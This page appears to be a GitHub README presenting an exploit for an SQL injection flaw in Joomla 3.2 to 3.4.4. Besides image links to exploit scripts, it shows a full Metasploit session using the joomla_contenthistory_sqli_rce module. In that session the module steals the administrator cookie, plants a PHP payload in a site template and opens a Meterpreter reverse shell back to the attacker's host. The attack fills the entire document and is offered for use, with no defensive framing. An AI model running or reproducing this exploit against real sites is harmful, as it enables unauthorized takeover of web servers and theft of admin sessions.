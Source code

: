 <strong><h1><center>Joomla! 3.2 to 3.4.4 - SQL Injection</strong></center></h1><br><br>
<br> <h3>expl.php</h3><br>
![alt tag](http://www14.0zz0.com/2015/10/27/21/401031393.jpg)<br><br><h3>Checker.pl</h3><br>
![alt tag](http://store1.up-00.com/2015-10/1446040259611.png)<br><br><h3>joomla_contenthistory_sqli.rb</h3><br>
<code>
msf > use exploit/unix/webapp/joomla_contenthistory_sqli_rce
msf exploit(joomla_contenthistory_sqli_rce) > set RHOST 192.168.2.130
RHOST => 192.168.2.130
msf exploit(joomla_contenthistory_sqli_rce) > exploit

[*] Started reverse handler on 192.168.2.50:4444
[*] 192.168.2.130:80 - Retrieved table prefix [ n13xt ]
[*] 192.168.2.130:80 - Retrieved admin cookie [ lvhjcpr08827qa2g45l537ct67 ]
[*] 192.168.2.130:80 - Retrieved unauthenticated cookie [ 8ec83d68fe7891e981f2e286f15b31d3 ]
[*] 192.168.2.130:80 - Successfully authenticated as Administrator
[*] 192.168.2.130:80 - Creating file [ b6iu7Dy.php ]
[*] 192.168.2.130:80 - Following redirect to [ /administrator/index.php?option=com_templates&view=template&id=503&file=L2I2aXU3RHkucGhw ]
[*] 192.168.2.130:80 - Token [ b062c55811a959dd9cd0f209311cecdb ] retrieved
[*] 192.168.2.130:80 - Template path [ /templates/beez3/ ] retrieved
[*] 192.168.2.130:80 - Insert payload into file [ b6iu7Dy.php ]
[*] 192.168.2.130:80 - Payload data inserted into [ b6iu7Dy.php ]
[*] 192.168.2.130:80 - Executing payload
[*] Sending stage (33068 bytes) to 192.168.2.130
[*] Meterpreter session 1 opened (192.168.2.50:4444 -> 192.168.2.130:46526) at 2015-10-23 16:55:26 +0700
[+] Deleted b6iu7Dy.php

meterpreter > getuid
Server username: www-data (33)
</code>
 

